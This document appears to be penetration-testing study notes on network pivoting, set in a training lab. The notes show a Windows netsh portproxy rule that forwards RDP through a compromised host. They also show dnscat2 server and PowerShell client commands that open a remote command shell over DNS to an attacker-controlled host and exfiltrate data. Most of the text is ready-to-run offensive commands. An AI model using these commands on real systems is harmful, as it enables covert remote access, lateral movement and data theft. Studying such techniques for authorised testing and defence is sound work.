 ### Netsh
- [Windows command line tool](https://learn.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh-contexts)
  - Find routes + view firewall settings + add proxies + create port forwarding rules
- windows pivot
- Steps
  - On windows pivot start netsh and add proxy listen_port
  - on the attacker connect to pivot and forward listen_port

```
netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.15.150 connectport=3389 connectaddress=172.16.5.25 
- v4tov4: IPv4 to IPv4 (also 6-6, 4-6, 6-4)

# Verify
netsh.exe interface portproxy show v4tov4 all

# On attacker
xfreerdp /v:Pivot:listen_port
```

```mermaid
---
title: Netsh
---
flowchart TD
subgraph Z[" "]
direction LR
    A[Attacker]:::foo -->|8080| B(netsh listens 8080:PIVOT WINDOWS:Connect target):::bar -->|3389| C(Target 1)


    classDef foo stroke:#f00
    classDef bar stroke:#0f0
end
```

### DNS Tunneling
- [dnscat2](https://github.com/iagox86/dnscat2)
  - send data using DNS protocol
  - Inside TXT record
  - When local DNS server tries to resolver an address, data is exfiltrated and sent to network
  - Exfiltration

```
git clone https://github.com/iagox86/dnscat2.git

cd dnscat2/server/
sudo gem install bundler
sudo bundle install

# server (attacker)
sudo ruby dnscat2.rb --dns host=$ATTACKER,port=53,domain=inlanefreight.local --no-cache

# Client for windows
git clone https://github.com/lukebaggett/dnscat2-powershell.git

# Import module
Import-Module .\dnscat2.ps1

# Client (pivot): Create tunnel  use secret created by server
Start-Dnscat2 -DNSserver $ATTACKER -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd 
ruby dnscat.rb --dns server=x.x.x.x,port=53 --secret=0ec04a91cd1e963f8c03ca499d589d21
```

